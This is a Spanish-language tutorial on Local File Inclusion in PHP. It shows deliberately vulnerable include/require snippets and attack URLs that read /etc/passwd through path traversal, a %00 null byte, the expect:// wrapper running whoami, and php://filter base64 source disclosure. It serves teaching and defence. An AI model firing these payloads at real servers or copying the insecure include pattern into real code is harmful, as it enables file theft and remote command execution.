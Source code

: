 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad _Local File Inclusion_, _LFI_ por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* XSS (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script en _PHP_.

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Script, del que podemos abusar para leer cualquier archivo del sistema, en este caso el `/etc/passwd`.

```
https://localhost/lfi.php?filename=/etc/passwd
```

Es importante aclarar que esta no es solo una vulnerabilidad de _PHP_, también está presente en otros lenguajes como lo es _JSP_ o _ASP_.

### [](#header-3)Directory Path Traversal

Es posible que en el código, se nos limite a acceder a archivos que se ubican únicamente en una ruta preestablecida en el script, en este caso `/var/www/html/`.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta preestablecida si añadimos `../` en nuestra cadena de ataque, pudiendo así listar contenido más allá de `/var/www/html/`.

```
https://localhost/lfi.php?filename=../../../etc/passwd
```

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos de determinada extensión, en este caso archivos de extensión `.php`.

```php
<?php
	$file = $_GET['filename'];
        require($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo `/etc/passwd`, o cualquier otro archivo del sistema, lo que estariamos leyendo en realidad sería el archivo `/etc/passwd.php`, el cual no existe. 

Sin embargo, si añadimos el nullbyte `%00` al final de nuestra cadena de ataque, el `.php` no será tenido en cuenta, pudiendo así leer con normalidad el `/etc/passwd`, o cualquier otro archivo del sistema.

```
https://localhost/lfi.php?filename=/etc/passwd%00
```

### [](#header-3)Wrappers

_PHP_ cuenta con una serie de _wrappers_, los cuales a menudo pueden ser abusados, por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE).

```
https://localhost/lfi.php?filename=expect://whoami
```

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser _Base64_ o _ROT13_. 

Este _wrapper_ resulta bastante útil si necesitamos leer un archivo en _PHP_, ya que recordemos, este es un lenguaje interpretado, por lo que si intentáramos leer un archivo _PHP_ del servidor vulnerable, lo que veríamos sería simplemente el output del script.

```
https://localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=test.php
```
